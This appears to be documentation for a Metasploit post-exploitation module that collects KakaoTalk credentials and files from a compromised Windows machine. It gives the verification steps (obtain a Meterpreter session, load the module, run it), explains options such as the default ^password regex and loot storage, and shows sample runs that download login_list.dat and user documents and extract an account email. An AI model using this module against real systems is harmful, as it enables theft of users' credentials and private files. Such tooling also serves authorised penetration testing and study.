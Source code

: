 ## Module Description

This post-exploitation module gathers artifacts found on KakaoTalk related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/kakaotalk
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053411_default_192.168.56.106_Kakaologin_list._899884.dat

[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053412_default_192.168.56.106_EXTRACTIONlogin__547610.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053412_default_192.168.56.106_KakaoAppleEvent._605437.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```

### Verbose Output
  ```
msf post(windows/gather/kakaotalk) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Kakao's parent folder found
[*] Kakao's Login_list.dat file found
[*] Processing C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users
[*] Downloading C:\Users\IEUser\AppData\Local\Kakao\KakaoTalk\users\login_list.dat
[*] Kakao Login_list.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_Kakaologin_list._746567.dat

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] login_list|**********@gmail.com
[+] File with credentials saved:  /root/.msf4/loot/20210513053709_default_192.168.56.106_EXTRACTIONlogin__448569.dat
[*] Kakao's parent folder found
[*] Kakao's * file found
[*] Processing C:\Users\IEUser\Documents\KakaoTalk Downloads
[*] Downloading C:\Users\IEUser\Documents\KakaoTalk Downloads\AppleEvent.pages
[*] Kakao Appleevent.pages downloaded
[+] File saved to:  /root/.msf4/loot/20210513053709_default_192.168.56.106_KakaoAppleEvent._975441.bin

[-] This artifact does not support any extraction type
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

